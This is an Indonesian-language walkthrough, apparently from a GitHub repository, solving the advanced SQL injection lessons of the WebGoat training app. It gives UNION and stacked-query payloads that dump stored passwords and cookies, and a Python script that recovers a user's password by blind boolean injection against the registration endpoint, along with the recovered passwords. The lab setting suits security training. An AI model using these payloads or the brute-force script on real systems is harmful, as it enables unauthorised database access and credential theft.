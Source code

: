 # SQL Injection (advanced)
## Try It! Pulling data from other tables
- Masukkan query injection sebagai berikut lalu tekan tombol **Get Account Info**
```sh
'; select * from user_system_data; --
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%201.JPG)

- Setelah data tampil, kita dapat menemukan password user dave

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%202.JPG)

- Masukkan password user dave ke field Password dan tekan tombol **Check Password**
```sh
passW0rD
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%203.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%204.JPG)

- Selain query injection diatas, kita juga bisa memasukkan query sebagai berikut
```sh
' union select userid, user_name, password, cookie, null as c1, null as c2, null as c3 from user_system_data; --
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%205.JPG)

## Can you log in as Tom?

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%206.JPG)

- Berdasarkan petunjuk soal, celah keamanan berada di field `Username` pada form **REGISTER**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%207.JPG)

- Pertama-tama kita nyalakan tool Burp Suite, kemudian kita coba masukkan payload sql injection pada field `Username` dan untuk field lainnya bisa diisi secara bebas seperti contoh berikut ini

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%208.JPG)

- Jika sudah klik tombol **Register Now** maka akan muncul pesan bahwa `User ' or 1=1;-- sudah ada` jadi kita harus menggantinya dengan username lain
```sh
' or 1=1;--
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%209.JPG)

- Kemudian kita coba ganti username dengan payload sql injection lainnya seperti dibawah ini
```sh
' or 1!=1;--
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%2010.JPG)

- Setelah kita klik tombol **Register Now** muncul pesan bahwa `User ' or 1!=1;-- berhasil dibuat` jadi kita bisa melakukan login. Dari sini dapat disimpulkan bahwa jika query pengecekan username bernilai `true` maka muncul pesan bahwa user sudah ada, sedangkan jika query pengecekan username bernilai `false` maka user akan ditambahkan ke database. Jadi kita bisa manfaatkan celah ini untuk mengetahui password user tom melalui serangkain sql injection

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%2011.JPG)

- Pada tool Burp Suite terdeteksi endpoint `/WebGoat/SqlInjectionAdvanced/challenge` yang digunakan untuk melakukan register user baru

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%2012.JPG)

- Payload yang kita gunakan untuk mengetahui password user tom adalah sebagai berikut
```sh
tom' and substring(password, 1, 1)='a
```
- Berikut ini adalah source code python yang kita gunakan mengoptimalisasi proses sql injection diatas. Simpan script dibawah ini dengan nama `pass_tom.py`
```sh
import requests

url = 'http://IP_Server:8080' #ubah url sesuai url server anda

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': '*/*',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Referer': url+'/WebGoat/start.mvc?username=testing',
    'Origin': url,
    'Connection': 'close',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'X-Requested-With': 'XMLHttpRequest',
    'Cache-Control': 'no-cache',
    'Pragma': 'no-cache',
    'Cookie': 'JSESSIONID=xxx' #ubah nilai JSESSIONID sesuai nilai JSESSIONID yang muncul di Burp Suite anda
}

password=""
for length in range(1,25):
     for letter in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890":
          params = "username_reg=tom'+AND+substring(password%2C1%2C"+str(length)+")%3D'"+password+letter+"&email_reg=test%40example.com&password_reg=a&confirm_password_reg=a"
          request = requests.put(url+"/WebGoat/SqlInjectionAdvanced/challenge", headers=headers, data=params)
          if "already exists" in request.text:
               password += letter
               print("Progress : "+password)
               break

print(f"\n")     
print("Password yang ditemukan: "+password)
```
- Jalankan script python diatas di terminal
```sh
python3 pass_tom.py
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%2013.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%2014.JPG)

- Setelah program diatas dijalankan, kita berhasil mendapatkan password dari user tom. Sekarang kita tinggal lakukan login di form login
```sh
thisisasecretfortomonly
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%2015.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%2016.JPG)

## Quiz

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%2017.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%2018.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%2019.JPG)